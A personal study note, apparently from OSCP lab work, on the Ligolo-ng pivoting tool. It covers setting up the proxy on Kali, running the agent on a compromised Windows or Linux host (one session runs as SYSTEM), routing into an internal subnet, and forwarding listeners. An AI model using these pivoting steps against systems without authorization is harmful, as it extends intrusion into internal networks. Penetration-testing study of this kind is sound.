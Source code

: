 public:: true

- ```
      __    _             __                                                                                                                                                  
     / /   (_)___ _____  / /___        ____  ____ _                                                                                                                           
    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                           
   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                            
  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                             
          /____/                          /____/                                                                                                                              
  
  Made in France ♥ by @Nicocha30!
  ```
  An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface.
- Download Ligolo-ng artifacts from the [GH release page](https://github.com/nicocha30/ligolo-ng/releases)
	- Download the proxy *(AKA server)* to run on Kali.
	- Download the agent *(AKA client)* for the target pivoting machine. Choose the correct platform/architecture.
- Server configuration
	- First we need to create a dedicated TUN interface.
	  ```bash
	  sudo ip tuntap add user crazybyte mode tun ligolo
	  sudo ip link set ligolo up
	  ```
	  *This requires privileged capabilities to create the tun interface. Since it's almost always done on Kali that's not an issue.*
	- Start the server
	  ```bash
	  ./proxy -selfcert
	  ```
	- The by default it starts listening on all interfaces on port `11601`. This can be changed via the the `-laddr` option.
	  ```bash
	  ./proxy -selfcert -laddr 192.168.45.183:11601
	  ```
- Client configuration
	- Upload the agent to the target machine
	- Start the agent
	  *The agent can ran from unprivileged users on any supported platform.*
		- On Linux
		  ```bash
		  ./agent -ignore-cert -connect 192.168.45.183:11601
		  ```
		- On Windows
		  ```powershell
		  .\agent.exe -ignore-cert -connect 192.168.45.183:11601
		  ```
			- To run it in background in powershell
			  ```powershell
			  start-job { C:\users\web_svc\agent.exe -ignore-cert -connect 192.168.45.238:11601 }
			  ```
	- If everything went fine you should see the agent joining on the ligolo-ng server console
	  ```
	  ┌──(crazybyte㉿kali)-[~/OSCP/Labs/MEDTECH]
	  └─$ ./proxy -selfcert -laddr 192.168.45.183:11601
	  WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
	  INFO[0000] Listening on 192.168.45.183:11601             
	      __    _             __                                                                          
	     / /   (_)___ _____  / /___        ____  ____ _
	    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
	   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                    
	  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                     
	          /____/                          /____/                                                      
	                                                                                                      
	  Made in France ♥ by @Nicocha30!                                                                     
	                                                                                                      
	  ligolo-ng » INFO[0605] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52145"
	  ligolo-ng » 
	  ```
- Start tunnelling from Kali through the client
	- Lets consider that we got access to `192.168.212.121` *(our target machine)* and we successfully deployed our ligolo-ng client there. We then realize that the breached machine has an additional network interface which provides access to an internal network on the segment `172.16.212.0/24`.
	  Our Kali (attacker machine) has no access to the new discovered network, so we can configure `192.168.212.121` to act as proxy for us with the ligolo-ng agent.
		- Lets first `start` the tunnel between our new joined agent and the proxy
		  ```
		  ligolo-ng » INFO[3245] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52154"
		  ligolo-ng » session
		  ? Specify a session : 2 - NT AUTHORITY\SYSTEM@WEB02 - 192.168.212.121:52154
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » ifconfig
		  ┌───────────────────────────────────────────────┐
		  │ Interface 0                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet0                      │
		  │ Hardware MAC │ 00:50:56:9e:1e:11              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 192.168.212.121/24             │
		  └──────────────┴────────────────────────────────┘
		  ┌───────────────────────────────────────────────┐
		  │ Interface 1                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet1                      │
		  │ Hardware MAC │ 00:50:56:9e:ab:72              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 172.16.212.254/24              │
		  └──────────────┴────────────────────────────────┘
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » start
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » INFO[3263] Starting tunnel to NT AUTHORITY\SYSTEM@WEB02 
		  ```
		- Now we just need to instruct our Kali that it can reach `172.16.212.0/24` via the `ligolo` tun interface, by adding a dedicated route.
		  id:: 655732a5-b8af-4b92-b83d-83506e81d6a7
		  ```bash
		  sudo ip route add 172.16.212.0/24 dev ligolo
		  ```
	- Forward port rules
		- If you want to expose one of your services to the internal network that an agent is pivoting to, then you can instruct the agent to listen to a specific port and, because it can reach back to you, redirect any traffic it gets to your machine (Kali) on a specific port.
			- First you need to enter the agent session in your Ligolo-ng TUI and check if there's any active forwarding rule
			  logseq.order-list-type:: number
			  ```bash
			  ligolo-ng » session
			  ? Specify a session : 1 - #1 - MS01\Mary.Williams@MS01 - 192.168.231.141:56848
			  [Agent : MS01\Mary.Williams@MS01] » listener_list 
			  ┌───────────────────────────────────────────────────────────────────────┐
			  │ Active listeners                                                      │
			  ├───┬───────┬─────────┬────────────────────────┬────────────────────────┤
			  │ # │ AGENT │ NETWORK │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
			  ├───┼───────┼─────────┼────────────────────────┼────────────────────────┤
			  └───┴───────┴─────────┴────────────────────────┴────────────────────────┘
			  ```
			- You can now configure a listener on the agent and instruct it to redirect all the traffic to your machine.
			  logseq.order-list-type:: number
			  ```bash
			  listener_add --addr 0.0.0.0:8001 --to 127.0.0.1:8000 --tcp
			  ```
				- In this example we told the agent to listen on any interface on port `8001` and redirect all the traffic on that port to our Kali machine on port `8000`.
				- If we are hosting a web-server on port `8000` in Kali, we can now reach from the machines in the intranet making them communicate via `<internal_agent_IP>:8001`
			- If we now list active listener again for that agent we would see something like the following
			  logseq.order-list-type:: number
			  ```bash
			  [Agent : MS01\Mary.Williams@MS01] » listener_list
			  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
			  │ Active listeners                                                                                                     │
			  ├───┬──────────────────────────────────────────────────────┬─────────┬────────────────────────┬────────────────────────┤
			  │ # │ AGENT                                                │ NETWORK │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
			  ├───┼──────────────────────────────────────────────────────┼─────────┼────────────────────────┼────────────────────────┤
			  │ 0 │ #1 - MS01\Mary.Williams@MS01 - 192.168.231.141:56848 │ tcp     │ 0.0.0.0:8001           │ 127.0.0.1:8000         │
			  └───┴──────────────────────────────────────────────────────┴─────────┴────────────────────────┴────────────────────────┘
			  
			  ```
	- Forward Local (AKA Agent) Ports
		- If you need to access the local ports of the currently connected agent, there's a **magic IP** hardcoded in Ligolo-ng: `240.0.0.1` *(this IP address is part of an unused IPv4 subnet)*.
		  If you query this IP address, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
		- You first need to add the following route
		  ```bash
		  sudo ip route add 240.0.0.1/32 dev ligolo
		  ```
- Limitation
  #+BEGIN_CAUTION
  Please consider the following tool limitation while interacting with ligolo-ng!
  #+END_CAUTION
	- Because the agent is running without privileges, **it's not possible to forward raw packets**. When you perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent.
		- When using nmap, you should use `--unprivileged` or `-PE` to avoid false positives.
	- Supported protocols/packets
		- TCP
		- UDP
		- ICMP (echo requests)